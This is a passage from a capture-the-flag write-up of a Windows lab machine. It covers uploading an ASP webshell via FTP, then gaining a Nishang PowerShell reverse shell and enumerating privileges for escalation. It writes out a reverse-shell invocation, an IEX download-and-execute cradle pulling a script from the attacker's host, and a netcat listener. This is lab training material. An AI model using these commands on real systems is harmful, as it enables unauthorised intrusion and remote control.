 So instead I did a quick Google search for .asp shells and I run into this very rich [GitHub repository](https://github.com/tennc/webshell/blob/master) which has several of them. Most of these are likely to work so I went for a random one called simply webshell.asp and uploaded it, it's a very basic cmd shell that autoatically gives us our username (which is the same we saw from the SNMP data):

![img](/images/writeup-conceal/5.png)

The downside of using this shell or any other we can upload from FTP is that the /upload/ folder is reset every few minutes, purging all the files inside it. So because this shell isn't too reliable as we would need to reupload it every time we can spawn a reverse shell by launching one of NIshang's:

```aaa
┌─[baud@parrot]─[~/conceal]
└──╼ $locate nishang | grep Tcp
/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1
/usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1
/usr/share/nishang/Shells/Invoke-PowerShellTcpOneLineBind.ps1
┌─[baud@parrot]─[~/conceal]
└──╼ $cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 conceal.ps1
```

I chose to use the complete shell instead of the oneliner in reverse mode, just add this line at the end of the script to make it that the shell is spawned as soon as the script is executed:

```aaa
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.37 -Port 9999
```

Start an HTTP server locally in the script's folder and a listener and run this command from the webshell:

```aaa
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.37:9090/conceal.ps1')
```

And the shell arrives in just a couple seconds:

```aaa
┌─[baud@parrot]─[~/conceal]
└──╼ $nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.37] from (UNKNOWN) [10.10.10.116] 49674
Windows PowerShell running as user CONCEAL$ on CONCEAL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\SysWOW64\inetsrv>whoami
conceal\destitute
```

Running *whoami /all* to list our privileges reveals something very interesting, we have SeImpersonatePrivilege enabled so we can escalate privileges to SYSTEM using RottenPotato/RottenPotatoNG/JuicyPotato:

```aaa
PS C:\users> whoami /all

USER INFORMATION
----------------

User Name         SID                                          
================= =============================================
conceal\destitute S-1-5-21-4220874023-1166253506-927404976-1001


GROUP INFORMATION
-----------------

```